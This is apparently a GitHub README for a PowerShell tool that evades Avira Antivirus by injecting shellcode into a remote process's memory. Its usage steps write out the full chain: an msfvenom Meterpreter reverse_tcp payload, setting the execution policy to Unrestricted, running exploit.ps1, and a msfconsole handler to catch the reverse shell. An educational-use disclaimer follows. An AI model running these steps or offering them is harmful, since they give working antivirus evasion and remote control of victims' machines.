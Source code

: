 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

 Bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <port_you_listen>
run

Disclaimer

This tool is provided for educational and research purposes only. It is essential to ensure you have proper authorization to conduct any security testing on a system. Unauthorized access to or use of computer systems may violate local and international laws. The authors disclaim any responsibility for illegal or unethical use of this tool.

Always seek written permission from the system owner or administrator before conducting any security testing on their systems.

Legal Notice

The usage of this tool may be subject to local and international laws and regulations. It is the user's responsibility to comply with these laws. The authors of this tool shall not be held responsible for any legal issues arising from the misuse of this tool.

Acknowledgments

The authors would like to acknowledge the Metasploit Project and Avira Antivirus for their respective software components used in this tool.

Contact Information

For any inquiries or feedback, please contact the authors at your_email@example.com.
